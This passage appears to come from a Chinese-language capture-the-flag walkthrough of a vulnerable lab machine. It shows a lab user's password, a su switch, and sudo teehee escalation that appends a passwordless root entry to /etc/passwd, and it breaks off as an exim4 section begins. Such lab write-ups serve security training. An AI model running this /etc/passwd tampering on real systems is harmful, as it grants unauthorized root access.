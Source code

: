 >  
 然后输入密码 


```
^xHhA&amp;hvim0y

```

<img src="https://img-blog.csdnimg.cn/caf4275f04e947cfb232c592bc211dcb.png" alt="在这里插入图片描述">

>  
 成功用su命令切换到用户charles 


#### 5、teehee提权

>  
 1、查看使用sudo运行的命令 


```
sudo -l

```

>  
 看到一个teehee提权，我们可以用teehee写一些信息到/etc/passwd里面 


<img src="https://img-blog.csdnimg.cn/a12d5e424dd2457ab95a1e38f207d364.png" alt="在这里插入图片描述">

>  
 2、执行如下命令进行提权： 


```
echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd 

```

>  
 命令的意思大致利用teehee为把如下信息写到/etc/passwd里面，在用户名admin 没有密码为管理员权限，进入的时候运行/bin/bash 3、/etc/passwd 内每个字段含义如下 


```
admin::0:0:::/bin/bash
username:password:User ID:Group ID:comment:home directory:shell

```

>  
 4、成功提权为root 


<img src="https://img-blog.csdnimg.cn/90abad863c8540f3980e7c065b5c419d.png" alt="在这里插入图片描述">

### 11、exim4提权

>  
 这个靶机可以使用exim4提权也可以使用teehee提权，两种提权方式选择一种即可，这里我两种提权方式都有些到 

